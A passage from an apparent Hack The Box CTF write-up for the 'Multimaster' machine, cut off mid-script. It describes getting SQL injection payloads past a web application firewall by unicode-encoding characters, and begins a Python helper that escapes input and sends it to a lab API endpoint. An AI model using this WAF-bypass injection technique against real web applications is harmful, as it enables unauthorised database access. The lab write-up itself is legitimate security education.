 ![](/assets/images/htb-writeup-multimaster/sql1.png)

When I tried different SQL injection payloads like single quotes I got 403 error messages, as well as when I sent too many queries so I knew there was some kind of WAF on the box. However by unicode encoding the characters I was able to bypass the WAF. Here I replaced a single quote by its unicode encoding and got a `null` answer instead of a 403 or empty JSON array.

![](/assets/images/htb-writeup-multimaster/sql2.png)

I wrote a quick script to make SQLi testing faster than using Burp.

```python
#!/usr/bin/python

import readline
import requests

url = "http://10.10.10.179/api/getColleagues"
proxies = { "http": "127.0.0.1:8080" }

def unicode_crap(txt):
	out = ""
	for i in txt:
		out = out + '\\u00%s' % hex(ord(i))[2:]
	return out

while True:
	headers = {
```